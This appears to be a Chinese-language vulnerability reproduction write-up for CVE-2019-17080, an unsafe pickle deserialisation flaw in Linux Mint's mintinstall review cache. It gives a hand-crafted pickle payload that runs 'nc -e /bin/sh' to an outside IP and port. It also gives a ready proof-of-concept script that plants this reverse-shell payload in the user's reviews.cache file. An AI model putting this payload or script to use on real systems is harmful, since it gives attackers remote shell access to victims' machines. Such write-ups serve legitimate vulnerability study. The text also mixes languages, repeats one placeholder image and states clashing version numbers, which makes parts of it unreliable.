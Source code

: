 ```yaml
---
title: （CVE-2019-17080）Mintinstall object injection
id: zhfly3020
---
```


# （CVE-2019-17080）Mintinstall object injection

## 一、漏洞简介

Linux mint软件管理器（v 7.9.5 / 9）由于配置错误而导致对象注入和任意代码执行。

Linux Mint Software Manager（v 7.9.5 / 9）由于配置错误而导致我们执行对象注入和任意代码

## 二、漏洞影响

Version: 7.9.9

## 三、复现过程

```
mintinsall 
```

我们运行Mint软件管理器还会检查是否有新注释，如果[new-reviews.list](https://community.linuxmint.com/data/) 下载中有 新注释并写入文件。

如果有新评论，请从文件[new-reviews.list](https://community.linuxmint.com/data/)下载并写入文件

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

```
code mintinstall.py 
```

首次启动软件管理器时，它会从评论模块调用ReviewCache（）类。

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

### 它如何处理数据？

```
code reviews.py 
```

当ReviewCache类启动（init）时，它将调用_load_cache（）函数。

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

加载缓存功能读取REVIEWS_CACHE变量中的文件，并在pickle模块的帮助下，对文件中的数据进行反序列化并在内存中保存一些值

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

当我检查文件时，看起来好像可以写文件。

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

[Pickle](https://docs.python.org/3.6/library/pickle.html) 因为我们可以使用模块执行序列化/反序列化操作，所以可以包含模块并使用reduce方法执行任意代码。

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

如果您尝试反序列化文件，则我们的恶意代码将起作用。

```
cos 
system 
(S'nc -e /bin/sh 192.168.2.138 4545' 
tR.
>>modül adı c{os}
>> fonksiyon
( >> işaretleyici nesnesi 
S >> tırnak sonuna kadar okuyup stack'e at
tR. >> stackte olanları çagır ve sonucu stacke yerleştir. 
```

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

![alt-text](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

poc

```
import os
import sys
def shellCode(payload):
    with open(f"{os.getenv('HOME')}/.cache/mintinstall/reviews.cache","w") as wb:
        wb.write(payload)
    print("[+] Start mintinstall")
if __name__=="__main__":
    shellCode(f"""cos\nsystem\n(S"nc -e /bin/sh {sys.argv[1]} {sys.argv[2]}"\ntR.""")
else:
    print("[!] exploit.py [IP] [PORT]") 
```